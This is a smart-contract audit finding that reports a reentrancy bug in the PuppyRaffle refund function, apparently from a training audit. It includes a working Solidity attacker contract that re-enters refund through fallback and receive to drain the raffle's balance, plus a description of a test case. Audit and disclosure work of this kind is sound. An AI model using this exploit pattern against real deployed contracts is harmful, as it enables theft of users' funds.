 ## [S-002] Reentrancy Vulnerability in `PuppyRaffle` Contract (Root: Lack of Checks + Impact: Fund Drainage)

### Description:
The `PuppyRaffle` contract is vulnerable to reentrancy attacks in the `refund` function. This vulnerability arises from the contract's handling of refunds, where it performs state changes after transferring funds to the caller. An attacker can exploit this vulnerability by recursively calling the `refund` function before the state changes take effect, thereby repeatedly draining funds from the contract.

### Impact:
If exploited, the reentrancy vulnerability allows an attacker to drain funds from the `PuppyRaffle` contract, potentially resulting in financial loss for the contract and its participants. Additionally, the vulnerability undermines the integrity and fairness of the raffle system by enabling unauthorized fund withdrawals.

### Proof of Concept:
The proof of concept involves creating a `ReentrancyAttacker` contract that recursively calls the `refund` function of the `PuppyRaffle` contract before the state changes are finalized. By exploiting this vulnerability, the attacker can drain funds from the `PuppyRaffle` contract.

#### Code Snippet:
```solidity
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
}
```

Example Test Case: test_Reentrant_refund
Description:
The test_Reentrant_refund function is a test case designed to demonstrate the reentrancy vulnerability in the PuppyRaffle contract. 
It simulates an attack scenario where an attacker contract recursively calls the refund function to drain funds from the PuppyRaffle contract.

Proof of Concept:
The test function enters four players into the raffle and initializes a ReentrancyAttacker contract.
The attacker contract attempts to recursively call the refund function of the PuppyRaffle contract before the state changes take effect.
The test function verifies the ending balances of both the attacker contract and the PuppyRaffle contract to confirm fund drainage.
